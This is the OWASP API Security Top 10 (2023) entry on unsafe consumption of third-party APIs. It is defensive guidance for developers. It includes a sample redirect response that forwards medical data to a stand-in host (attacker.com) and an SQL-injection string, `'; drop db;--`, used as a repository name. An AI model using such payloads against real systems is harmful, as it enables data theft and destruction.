 API10:2023 Unsafe Consumption of APIs
=====================================

| Threat agents/Attack vectors | Security Weakness | Impacts |
| - | - | - |
| API Specific : Exploitability **Easy** | Prevalence **Common** : Detectability **Average** | Technical **Severe** : Business Specific |
| Exploiting this issue requires attackers to identify and potentially compromise other APIs/services the target API integrated with. Usually, this information is not publicly available or the integrated API/service is not easily exploitable. | Developers tend to trust and not verify the endpoints that interact with external or third-party APIs, relying on weaker security requirements such as those regarding transport security, authentication/authorization, and input validation and sanitization. Attackers need to identify services the target API integrates with (data sources) and, eventually, compromise them. | The impact varies according to what the target API does with pulled data. Successful exploitation may lead to sensitive information exposure to unauthorized actors, many kinds of injections, or denial of service. |

## Is the API Vulnerable?

Developers tend to trust data received from third-party APIs more than user
input. This is especially true for APIs offered by well-known companies.
Because of that, developers tend to adopt weaker security standards, for
instance, in regards to input validation and sanitization.

The API might be vulnerable if:

* Interacts with other APIs over an unencrypted channel;
* Does not properly validate and sanitize data gathered from other APIs prior
  to processing it or passing it to downstream components;
* Blindly follows redirections;
* Does not limit the number of resources available to process third-party
  services responses;
* Does not implement timeouts for interactions with third-party services;

## Example Attack Scenarios

### Scenario #1

An API relies on a third-party service to enrich user provided business
addresses. When an address is supplied to the API by the end user, it is sent
to the third-party service and the returned data is then stored on a local
SQL-enabled database.

Bad actors use the third-party service to store an SQLi payload associated with
a business created by them. Then they go after the vulnerable API providing
specific input that makes it pull their "malicious business" from the
third-party service. The SQLi payload ends up being executed by the database,
exfiltrating data to an attacker's controlled server.

### Scenario #2

An API integrates with a third-party service provider to safely store sensitive
user medical information. Data is sent over a secure connection using an HTTP
request like the one below:

```
POST /user/store_phr_record
{ "genome": "ACTAGTAG__TTGADDAAIICCTT…" }
```

Bad actors found a way to compromise the third-party API and it starts
responding with a 308 Permanent Redirect to requests like the previous one.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Since the API blindly follows the third-party redirects, it will repeat the
exact same request including the user's sensitive data, but this time to the
attacker's server.

### Scenario #3

An attacker can prepare a git repo named `'; drop db;--`.

Now, when an integration from an attacked application is done with the
malicious repo, an injection payload is used on an application that builds an
SQL query believing the repo's name is safe input.

## How To Prevent

* When evaluating service providers, assess their API security posture.
* Ensure all API interactions happen over a secure communication channel (TLS).
* Always validate and properly sanitize data received from integrated APIs
  before using it.
* Maintain an allowlist of well-known locations integrated APIs may redirect
  yours to: do not blindly follow redirects.


## References

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### External

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
